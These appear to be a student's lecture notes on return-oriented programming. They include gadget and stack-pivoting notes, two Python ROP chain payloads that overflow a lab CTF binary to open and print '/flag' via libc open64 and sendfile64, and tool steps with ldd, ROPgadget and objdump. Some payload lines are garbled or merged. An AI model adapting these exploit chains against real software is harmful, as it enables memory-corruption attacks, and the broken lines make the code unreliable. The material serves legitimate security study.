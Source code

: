 Gadgets address base and reuse it

ADD REGISTER
1. PUt that value on the stack
2. POP gadget
SKIP REGISTER
1. POP gadget
NOP
1. ret;
	1. Go to next address and next gadget
	2. SKIP and go NEXT
2. nop ret
STACK PIVOTING
1. xchg
	1. EXCHANGE REGISTER VALUE
	2. ATOMIC instruction
	3. exchange RSP
	4. Original space
	5. NO limitation of overflowed stack anymore
2. LOC

syscall instuction
	VERY RARE

OPEN FILE/READ FILE/CHANGE THE OWNER/CHANGE OF THE PERMISSION
> Function call to C library (Systemcall wrapper) -> 

OPEN THE FLAG and print value> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,10,0,11|L13 Return-oriented Programming, p.38]]
> > ,
> 
> STDOUR> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,36,0,40|L13 Return-oriented Programming, p.38]]> [!PDF|] [[L13 Return-oriented Programming.pdf#page=42&selection=40,2,40,6|L13 Return-oriented Programming, p.42]]
> flag
.data section

> > 1000
> 
> OFfset


```python
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e6b85b) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
p += pack('<Q', 0x00007ffff7f221e2) # mov rsi, rax ; shr ecx, 3 ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret  
p += pack('<Q', 0x00007ffff7de6b72) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7edc371) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

```python
#!/usr/bin/env python2 
from struct import pack

# sendfile64 # open64  
# .date  
p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag' 
p += pack('<Q', 0x00007ffff7e716eb) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x000000000010e030) # open64  
#pop rsi ret

p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000001) # 3  
p += pack('<Q', 0x00007ffff7f28468) # rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee2431) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee1f6f) # pop rcx ; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00000000001131c0) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x0000000000118940) # syscall  
print p
```

1. ldd로 확인
```
ctf@bufferoverflow_overflowret4_no_excstack_64:/$ ldd ./bufferoverflow_overflowret4_no_excstack_64 
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
2. ROPGADGET으로 가젯 찾기
```
python3 ROPgadget/ROPgadget.py --binary ./bufferoverflow_overflowret4_no_excstack_64

python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6


```
3. objdump로 메모리 주소 확인하기